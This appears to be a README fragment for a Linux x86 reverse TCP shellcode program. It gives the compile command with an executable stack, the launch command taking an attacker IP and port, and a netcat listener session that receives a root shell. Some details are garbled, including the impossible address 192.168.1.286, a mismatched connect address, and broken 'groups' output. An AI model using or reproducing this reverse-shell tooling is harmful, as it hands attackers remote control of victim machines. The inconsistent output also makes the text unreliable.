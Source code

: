 # Linux-x86/Reverse-Shell

        Linux/x86 Reverse TCP Shell with dynamic IP and port binding Shellcode (tested on Ubuntu 12.04 LTS)
        Usage: gcc -z execstack -o shell_reverse_tcp shell_reverse_tcp.c
        $ ./shell_reverse_tcp_shellcode 192.168.1.286 4443
        Connecting to 192.168.1.198 (0xec01a8c0):4443 (0x115c)
        Byte 26: c0
        Byte 27: a8
        Byte 28: 01
        Byte 29: ec
 
        $ nc -nlv 4443
        Listening on 0.0.0.0 4443
        Connection received on 192.168.1.286 45219
        id
        uid=0(root) gid=0(root) groups=0(root)es)
